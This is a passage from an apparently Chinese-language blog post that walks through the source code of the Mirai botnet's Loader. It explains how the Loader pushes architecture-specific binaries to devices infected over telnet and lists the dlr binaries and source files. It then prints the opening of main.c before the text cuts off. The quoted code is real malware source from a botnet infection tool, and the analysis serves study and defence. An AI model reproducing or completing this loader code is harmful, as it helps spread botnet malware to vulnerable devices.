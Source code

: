 Malware 的源代码在 `Master`端通过交叉编译的方式使其能够支持一系列的体系架构，在Mater端的`Loader`代码试图确定即将感染的`Bot`的硬件体系架构，然后再`Push`最合适的可执行程序过去。然后，在可执行文件运行的情况下，该设备现在是僵尸网络的成员，并开始执行与僵尸网络中任何其他节点相同的扫描和攻击活动。

**文件目录介绍**：

![](/images/in-post/2018-10-29-Mirai-loader-Code-Walking-thought/2018-10-30-10-51-24.png)

左上方显示的目录是`Loader`根目录，里面包含了两个文件夹：`bin`和`src`，两个文件夹分别包含了：

- `bin`文件夹： 包含了`dlr.arm， dlr.arm7， dlr.m68k， dlr.mips， dlr.mpsl, dlr.ppc,dlr.sh4, dlr.spc, dlr.x86`不同体系架构上面的可执行代码.
- `src`文件夹：
    - main.c Loader执行过程的核心程序
    - connection.c 
    - server.c
    - telnet_info.c
    - util.c 工具文件, 提供给其他部分可以调用的四个函数工具
    - server.c

## 源代码分析

首先对`main`函数进行分析，因为整个文件不算太长，所以就将其源代码全部放在这里进行分析。

```cpp
#include <errno.h>
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <unistd.h>
#include "headers/binary.h"
#include "headers/includes.h"
#include "headers/server.h"
#include "headers/telnet_info.h"
#include "headers/util.h"

static void *stats_thread(void *);
static struct server *srv; //重要全局变量
char *id_tag = "telnet";

int main(int argc, char **args) {
  pthread_t stats_thrd;
  uint8_t addrs_len;
  ipv4_t *addrs;
  uint32_t total = 0;
  struct telnet_info info;

  addrs_len = 2;
  addrs = calloc(addrs_len, sizeof(ipv4_t));
  addrs[0] = inet_addr("192.168.0.1");  // Address to bind to
  addrs[1] = inet_addr("192.168.1.1");  // Address to bind to

  if (argc == 2) {
    id_tag = args[1];
  }

  if (!binary_init()) {
```